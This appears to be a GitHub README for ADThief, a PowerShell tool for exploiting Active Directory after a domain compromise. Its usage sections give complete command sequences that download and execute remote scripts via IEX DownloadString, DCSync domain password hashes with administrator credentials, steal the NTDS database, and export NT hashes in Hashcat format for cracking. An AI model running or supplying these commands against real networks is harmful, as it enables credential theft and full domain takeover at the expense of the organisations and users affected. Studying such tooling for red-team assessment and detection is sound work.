 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory, including password hashes
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Requirements

The Invoke-DCSync and Get-ADDatabase functions require a privileged access to Active Directory, typically domain admin rights.
The Dump-ADDatabase and Mount-ADDatabase functions require admin rights on the local computer.

The Invoke-DCSync and Dump-ADDatabase functions must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

The Mount-ADDatabase function must be launched on a computer with AD LDS installed. Please make sure to back up the NTDS.DIT file before using the option 'AllowUpgrade'. 

```
PS C:\> Enable-WindowsOptionalFeature -FeatureName "DirectoryServices-ADAM-Client" -Online
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Get-ADDatabase -Server DC.ADATUM.CORP -Credential ADATUM\Administrator
PS C:\> Dump-ADDatabase | Format-Custom -View HashcatNT | Out-File -Encoding ascii ADATUM.hashes
PS C:\> Mount-ADDatabase -AllowUpgrade -LdapPort 1389
PS C:\> Invoke-LdapSearch -Server localhost:1389 -LdapFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=65536)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -Properties * | Select sAMAccountName,servicePrincipalName
PS C:\> Umount-ADDatabase
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
